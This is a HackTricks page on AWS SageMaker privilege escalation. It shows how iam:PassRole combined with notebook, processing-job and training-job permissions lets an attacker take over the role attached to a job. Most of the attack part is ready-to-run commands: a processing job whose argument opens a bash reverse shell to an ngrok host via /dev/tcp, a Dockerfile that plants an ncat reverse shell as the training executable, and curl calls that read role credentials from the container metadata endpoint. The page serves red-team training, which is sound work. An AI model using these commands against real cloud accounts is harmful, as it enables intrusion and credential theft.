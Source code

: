 # AWS - Sagemaker Privesc

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## `iam:PassRole` , `sagemaker:CreateNotebookInstance`, `sagemaker:CreatePresignedNotebookInstanceUrl`

Start creating a noteboook with the IAM Role to access attached to it:

```
aws sagemaker create-notebook-instance --notebook-instance-name example \
    --instance-type ml.t2.medium \
    --role-arn arn:aws:iam::<account-id>:role/service-role/<role-name>
```

The response should contain a `NotebookInstanceArn` field, which will contain the ARN of the newly created notebook instance. We can then use the `create-presigned-notebook-instance-url` API to generate a URL that we can use to access the notebook instance once it's ready:

```bash
aws sagemaker create-presigned-notebook-instance-url \
    --notebook-instance-name <name>
```

Navigate to the URL with the browser and click on `Open JupyterLab`` in the top right, then scroll down to “Launcher” tab and under the “Other” section, click the “Terminal” button.

Now It's possible to access the metadata credentials of the IAM Role.

**Potential Impact:** Privesc to the sagemaker service role specified.

## `sagemaker:CreatePresignedNotebookInstanceUrl`

If there are Jupyter **notebooks are already running** on it and you can list them with `sagemaker:ListNotebookInstances` (or discover them in any other way). You can **generate a URL for them, access them, and steal the credentials as indicated in the previous technique**.

```bash
aws sagemaker create-presigned-notebook-instance-url --notebook-instance-name <name>
```

**Potential Impact:** Privesc to the sagemaker service role attached.

## `sagemaker:CreateProcessingJob,iam:PassRole`

An attacker with those permissions can make **sagemaker execute a processingjob** with a sagemaker role attached to it. The attacked can indicate the definition of the container that will be run in an **AWS managed ECS account instance**, and **steal the credentials of the IAM role attached**.

```bash
# I uploaded a python docker image to the ECR
aws sagemaker create-processing-job \
    --processing-job-name privescjob \
    --processing-resources '{"ClusterConfig": {"InstanceCount": 1,"InstanceType": "ml.t3.medium","VolumeSizeInGB": 50}}' \
    --app-specification "{\"ImageUri\":\"<id>.dkr.ecr.eu-west-1.amazonaws.com/python\",\"ContainerEntrypoint\":[\"sh\", \"-c\"],\"ContainerArguments\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/14920 0>&1\\\"\"]}" \
    --role-arn <sagemaker-arn-role>

# In my tests it took 10min to receive the shell
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI" #To get the creds
```

**Potential Impact:** Privesc to the sagemaker service role specified.

## `sagemaker:CreateTrainingJob`, `iam:PassRole`

An attacker with those permissions will be able to create a training job, **running an arbitrary container** on it with a **role attached** to it. Therefore, the attcke will be able to steal the credentials of the role.

{% hint style="warning" %}
This scenario is more difficult to exploit than the previous one because you need to generate a Docker image that will send the rev shell or creds directly to the attacker (you cannot indicate a starting command in the configuration of the training job).

```bash
# Create docker image
mkdir /tmp/rev
## Note that the trainning job is going to call an executable called "train"
## That's why I'm putting the rev shell in /bin/train
## Set the values of <YOUR-IP-OR-DOMAIN> and <YOUR-PORT>
cat > /tmp/rev/Dockerfile <<EOF
FROM ubuntu
RUN apt update && apt install -y ncat curl
RUN printf '#!/bin/bash\nncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh' > /bin/train
RUN chmod +x /bin/train
CMD ncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh
EOF

cd /tmp/rev
sudo docker build . -t reverseshell

# Upload it to ECR
sudo docker login -u AWS -p $(aws ecr get-login-password --region <region>) <id>.dkr.ecr.<region>.amazonaws.com/<repo>
sudo docker tag reverseshell:latest <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
sudo docker push <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
```
{% endhint %}

```bash
# Create trainning job with the docker image created
aws sagemaker create-training-job \
    --training-job-name privescjob \
    --resource-config '{"InstanceCount": 1,"InstanceType": "ml.m4.4xlarge","VolumeSizeInGB": 50}' \
    --algorithm-specification '{"TrainingImage":"<account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell", "TrainingInputMode": "Pipe"}' \
    --role-arn <role-arn> \
    --output-data-config '{"S3OutputPath": "s3://<bucket>"}' \
    --stopping-condition '{"MaxRuntimeInSeconds": 600}'

#To get the creds
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"
## Creds env var value example:/v2/credentials/proxy-f00b92a68b7de043f800bd0cca4d3f84517a19c52b3dd1a54a37c1eca040af38-customer
```

**Potential Impact:** Privesc to the sagemaker service role specified.

## `sagemaker:CreateHyperParameterTuningJob`, `iam:PassRole`

An attacker with those permissions will (potentially) be able to create an **hyperparameter training job**, **running an arbitrary container** on it with a **role attached** to it.\
_I haven't exploited because of the lack of time, but looks similar to the previous exploits, feel free to send a PR with the exploitation details._

# References
* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/)

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
